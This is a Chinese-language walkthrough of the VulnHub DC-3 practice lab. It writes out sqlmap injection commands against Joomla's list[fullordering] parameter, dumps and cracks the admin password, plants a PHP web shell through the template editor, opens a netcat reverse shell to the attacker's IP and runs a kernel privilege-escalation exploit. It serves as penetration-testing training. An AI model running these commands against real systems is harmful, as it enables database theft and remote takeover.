 ```yaml
---
title: DC-3复现
tags: 
  - vulnhub
  - 渗透测试
permalink: /archives/4926/
createTime: 2022-06-05 05:31:23
---
```


# DC-3复现

## 描述

> DC-3 是另一个特意建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 与之前的 DC 版本一样，这个版本是为初学者设计的，虽然这一次，只有一个标志，一个入口点，根本没有任何线索。
>
> 必须具备 Linux 技能和熟悉 Linux 命令行，以及一些基本渗透测试工具的经验。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你可以随时在@DCAU7 上给我发推文，寻求帮助，让你重新开始。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 对于那些有 CTF 和 Boot2Root 挑战经验的人来说，这可能不会花你很长时间（事实上，它可能会花费你不到 20 分钟的时间）。
>
> 如果是这种情况，并且如果您希望它更具挑战性，您可以随时重做挑战并探索其他获得根和获得旗帜的方法。

## 开始

### 信息收集

- 扫描C段看找到目标机器的ip

![image-20220605024811027](https://img.crzliang.cn/img/image-20220605024811027.png)

- 然后看都开了哪些端口，扫到了80端口

![image-20220605024905636](https://img.crzliang.cn/img/image-20220605024905636.png)

- 直接访问ip看到这个网站用的是joomla的框架，那我们可以尝试利用joomscan工具获取更加详细的信息

![image-20220605025205577](https://img.crzliang.cn/img/image-20220605025205577.png)

- 因为kali并没有集成该工具，所以需要下载

- 安装命令`apt install joomscan`

- 安装好之后利用工具查看版本等信息`joomscan -u http://192.168.207.142/`

![image-20220605025824356](https://img.crzliang.cn/img/image-20220605025824356.png)

- 在报告中不仅仅看到了版本信息，还有后台的管理地址
- 再利用searchploit查找有关的漏洞

![image-20220605030809920](https://img.crzliang.cn/img/image-20220605030809920.png)

- 再用命令查看txt文本`cat /usr/share/exploitdb/exploits/php/webapps/42033.txt`

![image-20220605031036970](https://img.crzliang.cn/img/image-20220605031036970.png)

- 从中我们得知漏洞的利用方法

### 渗透开始

#### sqlmap

- 直接跑payload

```sql
sqlmap -u "http://192.168.20.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

- 得到了5个数据库，直接查看joomladb数据库中的表

![image-20220605032447411](https://img.crzliang.cn/img/image-20220605032447411.png)

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220605032852389](https://img.crzliang.cn/img/image-20220605032852389.png)

- 查列名

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" --columns   -p list[fullordering]
```

![image-20220605040539515](https://img.crzliang.cn/img/image-20220605040539515.png)

- 查找字段信息

```sql
sqlmap -u "http://192.168.207.142/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"  --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -C "name,password,username" --dump   -p list[fullordering]

```

![image-20220605040758091](https://img.crzliang.cn/img/image-20220605040758091.png)

#### john破解

- 得到密码：snoopy

![image-20220605041557479](https://img.crzliang.cn/img/image-20220605041557479.png)

#### 传马

- 然后进入前面找到的后台管理地址，发现该网站可以上传一句话木🐎，那就传，然后用蚁剑连接

![image-20220605043121693](https://img.crzliang.cn/img/image-20220605043121693.png)

- 随便点一个

![image-20220605043207589](https://img.crzliang.cn/img/image-20220605043207589.png)

- 新建一个php文件用来传马

![image-20220605043329807](https://img.crzliang.cn/img/image-20220605043329807.png)

- 找到新建的php文件并写入马的内容，并保存

![image-20220605043532371](https://img.crzliang.cn/img/image-20220605043532371.png)

#### 蚁剑连接

- 打开蚁剑连接

![image-20220605044206406](https://img.crzliang.cn/img/image-20220605044206406.png)

#### 反弹shell

```txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.207.129 443 >/tmp/f
```

![image-20220605051113753](https://img.crzliang.cn/img/image-20220605051113753.png)

#### 漏洞利用

- 用命令uname -a查看内核版本，经过百度对应的是Ubuntu 16.04

![image-20220605051135777](https://img.crzliang.cn/img/image-20220605051135777.png)

- 再次利用searchsploit查找有关Ubuntu 16.04的漏洞

![image-20220605045904252](https://img.crzliang.cn/img/image-20220605045904252.png)

- 打开文件并查看漏洞利用方法

![image-20220605050130615](https://img.crzliang.cn/img/image-20220605050130615.png)

- 下载exp到靶机上，并解压

![](https://img.crzliang.cn/img/image-20220605052037421.png)

> 解压后依次进入39772文件夹
>
> 再解压exploit.tar，然后再进入ebpf_mapfd_doubleput_exploit，并运行./compile.sh，然后再运行./doubleput

![image-20220605052434258](https://img.crzliang.cn/img/image-20220605052434258.png)

- 然后在进到root目录，就看到了flag

![image-20220605052534589](https://img.crzliang.cn/img/image-20220605052534589.png)

- 最后再cat一下就得到flag

![image-20220605052605567](https://img.crzliang.cn/img/image-20220605052605567.png)

